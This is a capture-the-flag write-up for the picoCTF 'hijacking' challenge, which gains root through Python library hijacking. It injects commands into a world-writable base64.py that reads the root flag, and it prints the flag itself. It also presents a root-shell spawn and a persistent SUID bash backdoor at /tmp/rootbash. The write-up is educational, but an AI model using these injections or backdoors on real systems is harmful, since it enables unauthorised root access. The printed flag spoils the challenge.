 # Python Library Hijacking - PicoCTF Challenge Writeup

**Challenge Name:** hijacking  
**Category:** General Skills / Privilege Escalation  
**Flag:** `picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}`

## Challenge Description

Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with. Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

## Initial Reconnaissance

After connecting to the challenge server via SSH, let's explore the environment:

```bash
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Aug 26 15:26 .
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Aug 26 15:26 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py
```

Interesting! There's a `.server.py` file owned by root. Let's examine its contents:

```bash
picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

## Key Observations

1. **The script imports `base64`** - This is crucial for our attack vector
2. **File ownership**: The script is owned by root
3. **Functionality**: The script performs network operations and uses base64 encoding
4. **Potential sudo access**: Given the challenge description mentions getting root access

Let's check if we can run this script with elevated privileges:

```bash
picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
```

If this works, we have a potential privilege escalation vector through Python library hijacking.

## Vulnerability Analysis

The key to this challenge lies in Python's module import system and file permissions. Let's examine the Python library path:

```bash
picoctf@challenge:~$ python3
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> quit()
```

Python looks for modules in these directories in order. Let's check the permissions on the `base64.py` file:

```bash
picoctf@challenge:~$ ls -la /usr/lib/python3.8/base64.py
-rwxrwxrwx 1 root root  20382 May 26  2023 base64.py
```

**CRITICAL VULNERABILITY FOUND!** 

The `base64.py` file has world-writable permissions (`rwxrwxrwx`). This means any user can modify this system library file!

## Exploitation

### Understanding the Attack Vector

When Python executes `import base64`, it:
1. Locates the `base64.py` file in the library path
2. Executes the entire file as Python code
3. Any code at the module level (not inside functions) runs immediately

Since we can modify `base64.py` and the `.server.py` script can be run with `sudo`, we can inject malicious code that will execute with root privileges.

### Step 1: Modify the base64.py Library

We need to edit the `base64.py` file to inject our payload. Since `nano` isn't available, we'll use `vi`:

```bash
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py
```

Add the following code **at the very beginning** of the `base64.py` file:

```python
import os
os.system('whoami')
os.system('ls -al /root')
os.system('cat /root/.flag.txt')
```

**Important**: Don't delete the original content of `base64.py`! Just add your malicious code at the top. The original functions are needed for the base64 module to work properly.

### Step 2: Trigger the Attack

Now execute the server script with sudo privileges:

```bash
picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
```

### Step 3: Capture the Flag

When the script runs:
1. Python imports the modified `base64` module
2. Our injected code executes first with root privileges
3. The code reads the flag file and prints it
4. The original script continues (and may error out, but that's fine)

## Expected Output

```bash
picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
root
picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

Success! The flag is: **`picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}`**

## Technical Explanation

### Why This Works

1. **Module Import Execution**: When Python imports a module, it executes all code at the module level
2. **File Permission Vulnerability**: The world-writable `base64.py` allows arbitrary code injection
3. **Privilege Escalation**: Running with `sudo` elevates our injected code to root privileges
4. **Import Order**: Our code executes before any base64 functions are called

### Attack Flow Diagram

```
User modifies base64.py → sudo python3 script.py → import base64 → 
Malicious code executes as root → Flag retrieved → Original script continues
```

## Alternative Exploitation Methods

### Method 1: Spawn Root Shell
Instead of just reading the flag, you could spawn a root shell:

```python
import os
os.system('/bin/bash')
```

### Method 2: Create SUID Binary
Create a persistent backdoor:

```python
import os
os.system('cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash')
```

Then later:
```bash
/tmp/rootbash -p
```

## Lessons Learned

### Security Issues Demonstrated

1. **File Permission Misconfiguration**: System libraries should never be world-writable
2. **Privilege Escalation via Import**: Importing modules in privileged contexts is dangerous
3. **Python Path Hijacking**: Attackers can weaponize Python's import mechanism

### Defensive Measures

1. **Proper File Permissions**: System libraries should be read-only for non-privileged users
2. **Virtual Environments**: Use isolated Python environments for applications
3. **Principle of Least Privilege**: Don't run scripts with unnecessary sudo access
4. **Code Review**: Audit scripts that run with elevated privileges

### Real-World Implications

This attack pattern appears in:
- Containerized environments with shared Python libraries
- Systems with misconfigured package managers
- Development environments with relaxed permissions
- CI/CD pipelines with inadequate isolation

## Flag

**`picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}`**

